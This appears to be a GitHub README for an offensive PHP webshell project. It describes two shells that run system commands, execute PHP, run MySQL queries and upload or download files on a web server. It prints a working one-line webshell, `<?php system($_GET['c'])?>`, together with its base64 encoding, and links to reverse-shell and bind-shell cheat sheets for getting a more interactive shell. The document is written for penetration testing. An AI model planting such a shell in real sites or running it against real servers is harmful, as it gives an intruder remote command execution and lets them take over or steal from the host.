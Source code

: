 ## PHP Webshell

This is a simple yet useful PHP webshell.
It is compatible with PHP > 5.2

This webshell comes in two flavours :
- shell.php : fully featured webshell to exploit
- mini.php : lightweight, only essential features

### Features

shell.php
- browse server's directory tree
- read, edit, delete, upload and download file
- Execute system commands
- Execute PHP code
- Execute MySql queries

mini.php
- Execute system commands
- Execute PHP code
- Upload file

### More content

Another file is available : `mini-b64.txt`
This is the base64 version of mini.php. It does not contain '+' and '/' chars to avoid URL encoding and other possible issues.

### Even more tricks

###### Tiniest PHP shell

`<?php system($_GET['c'])?>`
`PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pPz4=`

##### Upgrade to a more interactive shell

PHP reverse shell : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
PHP bind shell : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md

###### Good resources about shells
https://www.revshells.com/
https://yolospacehacker.com/hackersguide/en/?cat=Webshell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md